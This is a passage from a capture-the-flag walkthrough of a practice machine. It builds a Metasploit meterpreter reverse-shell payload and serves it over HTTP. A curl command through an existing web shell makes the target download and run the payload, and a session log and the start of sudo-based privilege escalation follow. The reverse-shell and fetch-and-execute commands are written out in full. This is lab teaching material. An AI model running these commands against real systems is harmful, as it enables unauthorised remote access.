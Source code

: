 Let's start gaining reverse shell foothold with running Metasploit `multi/handler` with `linux/x64/meterpreter/reverse_tcp` payload.
```
msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 4444; set payload linux/x64/meterpreter/reverse_tcp; run"
```
```
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 4444
payload => linux/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.212:4444
```

Next we will expose `linux/x64/meterpreter/reverse_tcp` over HTTP.
```
msfvenom -p linux/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=4444 \
    -f elf \
    -o shell && \
python3 -m http.server
```

And then download and run it on target.
```
CMD=$(echo "wget -P /tmp http://$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1):8000/shell; chmod 700 /tmp/shell; /tmp/shell")
curl -X POST http://$TARGET_IP/dev/phpbash.php -d "cmd=$CMD"
```


```
[*] Sending stage (3045380 bytes) to 10.129.65.63
[*] Meterpreter session 1 opened (10.10.14.212:4444 -> 10.129.65.63:53126) at 2025-02-12 21:48:51 +0100

meterpreter > getuid
Server username: www-data
```

Foothold gained! Let's proceed with privileges escalation.

# Privileges escalation
Let's drop into system command shell.
```
meterpreter > shell
```

And start with listing sudo privileges.
```
sudo -l
```
```
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```
